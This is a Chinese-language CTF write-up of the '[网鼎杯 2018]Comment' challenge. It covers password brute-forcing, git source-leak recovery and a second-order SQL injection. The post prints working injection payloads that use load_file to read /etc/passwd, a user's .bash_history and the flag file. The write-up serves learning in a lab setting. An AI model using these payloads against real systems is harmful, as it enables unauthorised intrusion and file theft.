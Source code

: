 ```yaml
---
title: '[网鼎杯 2018]Comment'
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-07-29 22:35:01
authorLink:
tags: Git恢复+二次注入
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-593325.jpg
---
```

一个留言板，留言要登陆，提示了zhangwei、zhangwei***，burp爆破得密码zhangwei666。
直接dir扫，git源码泄露：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200729223948.png)

GItHack启动（之前GitHack报错是因为忘记把python3切换成python2了，属实憨憨）：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ图片20200729224203.jpg)

到这里卡住了，因为这个实在看不出来啥，看了wp才知道这是一段残缺的代码，需要进行恢复，又涨知识了QAQ。

指令：git log --reflog

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200729224523.png)

接下来：git reset --hard xxxxx
但这里环境好像出了点问题，不知道什么原因，一直没有成功恢复，估计不是我的问题了，应该是题目的问题。
假装恢复了源码：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200729230344.png)

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200729232616.png)

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200729234737.png)

可以发现当do=write的时候，传入的信息都会进行转义，但是数据库会自动清除反斜杠，

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200729234747.png)

当do=comment的时候，可以发现直接从category这个字段进行查询，这就导致了二次注入
所以说那个转义函数根本起不到防护的作用

二次注入原理：https://www.jianshu.com/p/3fe7904683ac
二次注入可以理解为，攻击者构造的恶意数据存储在数据库后，恶意数据被读取并进入到SQL查询语句所导致的注入。防御者可能在用户输入恶意数据时对其中的特殊字符进行了转义处理，但在恶意数据插入到数据库时被处理的数据又被还原并存储在数据库中，当Web程序调用存储在数据库中的恶意数据并执行SQL查询时，就发生了SQL二次注入。

可以发现content这个变量最后会回显在我们的留言页面中，那么就通过他来输出我们的sql语句
然后闭合sql语句 由于内容太多了，采取/**/的批量注释方法,

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200730002906.png)

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200730003106.png)

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200730003130.png)

接着',content=(select(load_file("/etc/passwd"))),/*

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200730003431.png)

注意看到/home/www下以bash身份运行
',content=(select(load_file("/home/www/.bash_history"))),/*

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200730003528.png)

看见他删除了 .DS_Store 文件，由于目标环境是docker，所以 .DS_Store 文件应该在 /tmp/html 中。
',content=(select(load_file("/tmp/html/.DS_Store"))),/*

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200730003621.png)

未显示完全,用hex编码显示
',content=(select hex(load_file("/tmp/html/.DS_Store"))),/*

解码得

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200730004005.png)

payload：213',content=(select hex(load_file('/var/www/html/flag_8946e1ff1ee3e40f.php'))),/*

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200730004216.png)

解码得flag。

总结：这道题目还是挺迷的。。。第一个是直接user()而不是database()。后面二次注入虽然懂了原理但是还是不知道为什么会想到这样做。不知道自己什么时候能完全独立解出这种题。



